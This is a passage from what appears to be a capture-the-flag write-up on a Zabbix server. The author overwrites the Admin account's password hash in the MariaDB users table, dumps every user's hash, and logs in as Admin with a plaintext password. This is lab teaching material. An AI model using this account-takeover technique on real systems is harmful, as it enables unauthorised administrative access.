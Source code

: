 
I’ll set the Admin user to have the same password as matthew:

```

MariaDB [zabbix]> update users set passwd = '$2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS' where userid = 1;
Query OK, 1 row affected (0.001 sec)
Rows matched: 1  Changed: 1  Warnings: 0

```

It worked:

```

MariaDB [zabbix]> select * from users;                                           
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+--
---------+------------+---------+---------+---------+----------------+------------+---------------+---------------+---
-------+--------+-----------------+----------------+
| userid | username | name    | surname       | passwd                                                       | url | a
utologin | autologout | lang    | refresh | theme   | attempt_failed | attempt_ip | attempt_clock | rows_per_page | ti
mezone | roleid | userdirectoryid | ts_provisioned |
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+--
---------+------------+---------+---------+---------+----------------+------------+---------------+---------------+---
-------+--------+-----------------+----------------+
|      1 | Admin    | Zabbix  | Administrator | $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS |     |  
       1 | 0          | default | 30s     | default |              0 |            |             0 |            50 | de
fault  |      3 |            NULL |              0 |
|      2 | guest    |         |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |  
       0 | 15m        | default | 30s     | default |              0 |            |             0 |            50 | de
fault  |      4 |            NULL |              0 |
|      3 | matthew  | Matthew | Smith         | $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS |     |  
       1 | 0          | default | 30s     | default |              0 |            |             0 |            50 | de
fault  |      1 |            NULL |              0 |
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+--
---------+------------+---------+---------+---------+----------------+------------+---------------+---------------+---
-------+--------+-----------------+----------------+
3 rows in set (0.001 sec)

```

#### GUI View

Logging in as Admin / 96qzn0h2e1k3 shows me a ton more menus:

![image-20250228215539580](/img/image-20250228215539580.png)

Under “Data collection” –> “Hosts” –> “Items” I’ll see my RCE attempts:

![image-20250228215907346](/img/image-20250228215907346.png)